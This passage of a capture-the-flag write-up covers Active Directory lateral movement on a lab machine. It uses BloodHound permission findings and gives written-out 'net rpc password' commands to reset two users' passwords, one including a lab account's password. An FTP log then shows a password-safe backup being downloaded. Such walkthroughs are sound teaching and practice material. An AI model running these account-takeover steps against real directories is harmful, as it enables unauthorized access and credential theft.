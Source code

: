 # Bloodhound
Once generated the json files using ad-bloohound, we upload them to bloodhound for ingesting.
We discover that the user ```olivia``` has ```GenericAll``` permissions over another user, ```Michael```.
![alt text](https://github.com/Kyd0s/Kyd0s.github.io/blob/main/assets/Bloodhound%20Olivia-Michael.png?raw=true)
This allows us to make changes to the user ```Michael```, in this case, we change his password and mark him as ```owned``` on Bloodhound.
```bash
net rpc password "michael" 'Password123!' -U "administrator.htb"/"olivia"%"ichliebedich" -S "dc.administrator.htb"
```
Moving to ```Michael```, Bloodhound shows us that he can change the password of the user ```Benjamin``` which is part of a group called ```Share Moderators``` so we change the password of the user called ```Benjamin```, marking him as ```owned``` on Bloodhound.
![alt text](https://github.com/Kyd0s/Kyd0s.github.io/blob/main/assets/Bloodhound%20Michael-Benjamin.png?raw=true)
```bash
net rpc password "benjamin" 'Password123!' -U "administrator.htb"/"michael"%'Password123!' -S "dc.administrator.htb"
```
# FTP Access
We know that ```FTP``` is open on port ```21``` and ```Benjamin``` being part of the group ```Share Moderators``` might have access.
Using the command ```ftp benjaming@administrator.htb``` we confirm that ```Benjamin``` has access to ```FTP```, and there is an interesting file ```Backup.psafe3``` so we download it with the command ```mget Backup.psafe3```

```bash
ftp benjamin@administrator.htb     
Connected to administrator.htb.
220 Microsoft FTP Service
331 Password required
Password: 
230 User logged in.
Remote system type is Windows_NT.
ftp> dir
229 Entering Extended Passive Mode (|||62961|)
125 Data connection already open; Transfer starting.
10-05-24  09:13AM                  952 Backup.psafe3
226 Transfer complete.
ftp> 
```
We double check that the file is a psafe3 file with the command ```file Backup.psafe3```. This is an imporant step as it is very common in CTFs to have file extentions renamed, or have file types masked as others to omit information.
